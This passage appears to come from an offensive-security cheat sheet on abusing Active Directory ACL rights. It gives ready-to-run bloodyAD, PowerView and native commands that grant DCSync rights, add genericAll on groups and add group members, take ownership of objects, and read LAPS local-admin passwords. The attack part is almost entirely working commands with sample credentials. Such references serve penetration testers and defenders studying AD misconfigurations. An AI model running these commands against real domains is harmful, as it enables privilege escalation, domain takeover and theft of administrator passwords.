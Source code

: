 		Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
		```
  
* WriteDACL on Group:
	* Windows/Linux:
		```ps1
		bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' add genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
		
		# Remove right
		bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' remove genericAll 'cn=INTERESTING_GROUP,dc=corp' devil_user1
		```
	* Windows only:
		```ps1
		# Using native command
		net group "INTERESTING_GROUP" User1 /add /domain
		# Or with external tool
		PowerSploit> Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
		```

## WriteOwner

An attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they wants. 
* Windows/Linux:
	```ps1
	bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' set owner target_object devil_user1
	```
* Windows only:
	```ps1
	Powerview> Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
	```

This ACE can be abused for an Immediate Scheduled Task attack, or for adding a user to the local admin group.

## ReadLAPSPassword

An attacker can read the LAPS password of the computer account this ACE applies to.
* Windows/Linux:
	```ps1
	bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
	```
* Windows only:
	```ps1
	Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
	```
